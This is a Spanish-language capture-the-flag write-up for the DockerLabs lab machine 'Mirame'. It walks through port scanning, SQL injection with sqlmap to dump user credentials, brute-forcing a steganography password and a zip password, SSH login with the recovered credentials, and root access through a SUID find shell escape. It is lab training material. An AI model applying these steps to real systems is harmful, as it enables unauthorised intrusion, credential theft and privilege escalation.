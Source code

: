 ```yaml
---
title: Mirame - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3c6a11d0-98ea-449d-b124-dc7951cb6a84)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80,22 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/79604c88-03f7-4c33-acf2-5076e32869f5)

# Exploración Web

Al acceder a la página web, observamos una página de inicio de sesión:
![image](https://github.com/user-attachments/assets/01915018-0278-4a6a-8c54-8f9f615b7627)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/aabf1211-fc56-491c-bbc2-5dedb231eaa7)

Encontramos varias rutas, pero sin resultados interesantes por el momento.

## Inyeccion Sql 

Probamos inyecciones SQL en el formulario de inicio de sesión usando `sqlmap`.

Primero, capturamos la petición y la guardamos en un archivo `request.req`:

![image](https://github.com/user-attachments/assets/6992ffe9-6a37-463e-ad12-146eb37d40ed)

Probamos si el sitio es vulnerable a inyección SQL:
```bash
sqlmap -r request.req -p searchitem --batch
```
![image](https://github.com/user-attachments/assets/a162743f-2200-44fe-a0f1-9c7fd467dc44)

Al parecer, es vulnerable. Ahora consultamos las bases de datos:

```bash
sqlmap -r request.req -p searchitem --batch --dbs
```
![image](https://github.com/user-attachments/assets/0af6ca88-b27f-4587-957f-587739457018)

A continuación, obtenemos las tablas de la base de datos `users`:
```bash
sqlmap -r request.req -p searchitem --batch -D users --tables
```
![image](https://github.com/user-attachments/assets/39913051-dd61-4764-a4b5-87f4e8323bb0)

A continuacion, obtenemos el contenido de la tabla `usuarios`.
```bash
sqlmap -r request.req  -p searchitem --batch -D users -T usuarios --columns
```
![image](https://github.com/user-attachments/assets/84f30792-6479-41c4-ac21-aee62d06b678)

Extraemos las columnas `id`, `username` y `password` de la tabla usuarios:
```bash
sqlmap -r request.req -p searchitem --batch -D users -T usuarios -C id,username,password --dump
```
![image](https://github.com/user-attachments/assets/9d96e32f-a072-44f1-a37f-dae4560dd959)

# Intrusion

Ya teniendo un listado vemos que hay uno llamado `directoriotravieso` y si es es un directorio .

![image](https://github.com/user-attachments/assets/7e4c871d-7e97-4ee3-be7c-43eb56de402b)

Por lo que parecia , era una buena suposicion , ahora lo que haremos sera descargar esa imagen y ver si contiene un mensaje oculto. 

```bash
steghide --extract -sf miramebien.jpg 
```

Nos solicita una contraseña que aún no conocemos:

![image](https://github.com/user-attachments/assets/6c3dfe1d-e35a-4a9e-ab74-e60ff24a4f20)


### Fuerza bruta

Usamos `stegcracker` para realizar un ataque de fuerza bruta sobre la imagen `miramebien.jpg` utilizando el diccionario `rockyou.txt`:

```bash
stegcracker miramebien.jpg /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/user-attachments/assets/c504e959-4d2b-400d-9789-089e8997c886)

La contraseña es **chocolate**. Ahora extraemos el contenido oculto de la imagen:

![image](https://github.com/user-attachments/assets/1025c5bb-f426-477e-b603-a69be1ccbfde)

Y nos ha descargado un ocultito.zip , vamos a descomprimirlo, parece que este también tiene un `password`.

![image](https://github.com/user-attachments/assets/5f28b73b-a61a-43f2-aaa9-bbcc6a49f6d0)

Descargamos un archivo llamado `ocultito.zip`, el cual está protegido por una contraseña.

Extraemos el hash de la contraseña con `zip2john`:
```bash
zip2john ocultito.zip > contraseña.hash
```
![image](https://github.com/user-attachments/assets/fe45cd36-a9e1-4c2d-a626-bb33c3bdd0f7)

Usamos `john` para descifrar la contraseña:
```bash
john contraseña.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/025f431d-3eb3-41a8-8acc-cc0a294178ce)

La contraseña es **stupid1**. Ahora descomprimimos el archivo:
```bash
unzip ocultito.zip
```
![image](https://github.com/user-attachments/assets/280bf9e4-1903-47ba-befc-1d4ec52dacb3)

El archivo descomprimido es `secret.txt`. Contiene credenciales:

![image](https://github.com/user-attachments/assets/02a9078b-751f-4c9c-b666-136573aa343d)

Usamos estas credenciales para conectarnos por SSH:

```bash
ssh carlos@172.17.0.2 
```

![image](https://github.com/user-attachments/assets/7cd77b45-66f8-4339-b3aa-c754f6db7dd9)

# Escalada de privilegios.

Buscamos binarios con permisos SUID:

![image](https://github.com/user-attachments/assets/b51fd811-84dd-4d36-af73-1371bcacb114)

```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/34d71a5e-325e-4d95-9218-5958ee2de755)

Vemos que tenemos permisos en `find`. Ejecutamos el siguiente comando para obtener una shell como `root`:

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![image](https://github.com/user-attachments/assets/33d8e5a5-9b14-4d84-a9a4-79dea199147e)

¡Ya somos root!
